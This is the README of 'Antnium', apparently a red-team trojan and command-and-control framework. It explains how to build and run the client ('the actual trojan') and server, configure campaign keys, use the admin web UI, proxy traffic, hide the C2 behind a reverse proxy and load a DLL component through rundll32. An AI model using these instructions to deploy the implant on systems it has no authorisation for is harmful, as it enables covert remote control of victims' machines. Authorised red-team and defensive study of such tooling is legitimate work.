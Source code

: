 # Antnium 

```
Anti Tanium
```

There are two components: 
* client.exe: The actual trojan
* server.exe: C2 infrastructure 


## Quick How to use

Download and install go (and git).

We use `127.0.0.1:8080` as C2 domain here (localhost as we start both client.exe and server.exe
on the same host). This is also the default, no need to change anything. 

Check campaign in `campaign/campaign.go`: 
* `serverUrl = "http://127.0.0.1:8080"`

Build it: 
```
.\makewin.bat deploy
```

Start server, and client: 
```
cd build\
.\server.exe
.\static\client.exe
```

Access the WebUI by opening the following URL in the browser after starting server.exe:
```
http://localhost:8080/webui/
```

Note: for Linux use `make` instead of `makewin.bat`, and replace `\` with `/`

## Detailed build instructions

Go install: 
* Windows: https://golang.org/doc/install
* Linux: `apt install golang`

Compile client.exe and server.exe: 
```
> .\makewin.bat deploy
```

This will create: 
* /build/server.exe
* /build/server.elf
* /build/static/client.exe
* /build/static/client.elf
* /build/static/wingman.exe
* /build/upload/
* /build/webui/

Start server.exe:
```
> cd build
> .\server.exe

Antnium 0.1
Loaded 102 packets from db.packets.json
Loaded 21 clients from db.clients.json 
Periodic DB dump enabled
Starting webserver on 127.0.0.1:8080  
```

Start client.exe:
```
> .\build\static\client.exe

Antnium 0.1
time="2021-09-02T21:48:16+02:00" level=info msg="UpstreamHttp: Use WS"
time="2021-09-02T21:48:16+02:00" level=info msg="Connecting to WS succeeded"
time="2021-09-02T21:48:16+02:00" level=info msg=Send 1_computerId=c4oil02sdke2sp3nfngg 2_packetId=0 3_downstreamId=client 4_packetType=ping 5_arguments="map[]" 6_response=...
time="2021-09-02T21:48:16+02:00" level=info msg=Send 1_computerId=c4oil02sdke2sp3nfngg 2_packetId=0 3_downstreamId=client 4_packetType=ping 5_arguments="map[]" 6_response=...
```

## Notes on Campaign configuration

`campaign.go` connects a compiled client.exe with a specific server.exe, which forms a campaign. 
A campaign has individual encryption- and authentication keys, which are shared between
server and client. 

```
type Campaign struct {
	ApiKey      string  // Key used to access client facing REST
	AdminApiKey string  // Key used to access admin facing REST
	EncKey      []byte  // Key used to encrypt packets between server/client
	ServerUrl   string  // URL of the server, as viewed from the clients
}
```

Note that `ServerUrl` is the URL used by the client for all interaction with the server. 
It is the public server URL, e.g. `http://totallynotmalware.ch`. The actual server.exe may
be behind a reverse proxy, and started with `server.exe --listenaddr 127.0.0.1:8080` (so `ServerUrl` is not necessarily equal `listenaddr`). 

## Notes on server access

When first connecting to the server, you need to access and configure the UI first. 

The Angular UI files are publicly accessible. Lets assume `ServerUrl="http://localhost:8080"` and `listenaddr=0.0.0.0:8080`. You can either: 
* use the integrated antniumui, available as `http://localhost:8080/webui` on your browser
* or `ng serve` from antniumui directory, and then open `http://localhost:4200` on your browser

When connecting to the UI in the browser, you need first to configure the server IP and its password:
* AdminApiKey (default: "Secret-AdminApi-Key", like in Campagin default)
* ServerIP (default: "http://localhost:8080")
* User (optional)

## Client

Tested on: 
* Windows 10
* Ubuntu 20.04 LTS

Compile on windows:
```
> .\makewin.bat client
```

Deploy it on your target.


## Server

Tested on: 
* Works: Ubuntu 20.04 LTS, Go 1.13.8
* Works: Windows 10, Go 1.16.6
* Compile FAIL: Ubuntu 16.04 LTS, Go 1.6.2

On Linux:
```
$ make server
$ mkdir -p static upload
$ ./server --listenaddr 0.0.0.0:8080
```

Result is `server.exe`. Make sure to run it in the directory where you have or expect: 
* upload/
* static/
* db.*.json
as working directory.

It will start a REST server on that port, providing: 
* `/`: REST for the clients
* `/ws`: Websocket for the clients
* `/admin`: REST for admin interface (add packet, get clients)
* `/adminws`: Websocket for admin interface (push packets)
* `/webui`: HTML files for admin interface (Angular source and html, accesses REST and websocket)

Put a reverse proxy before it (make sure it supports websockets!) or forward ports.


## Options

For proxy, use full HTTP url:
```
client.exe -proxy http://proxy:8080
```

or via environment variables:
```
export PROXY http://localhost:8080
./client
```


## Wingman

Wingman is basically the Client, but without direct connection to the C2. 
It can connect to an existing client on localhost:50000 (more sure its started, if Campaign.AutoStartDownstreams is false)

Connects to localhost port 50000:
```
wingman.exe
```

Or use rundll32.exe to load the dll (the 64 bit rundll32 version in system32, not the 32 bit version in C:\Windows\SysWOW64\rundll32.exe):
```
C:\Windows\System32\rundll32.exe .\wingman.dll,Start
```

It will appear as downstream `net#0`.


## Testing

```
go test ./...
```

There may still be race conditions. If it fails once, just execute it again. 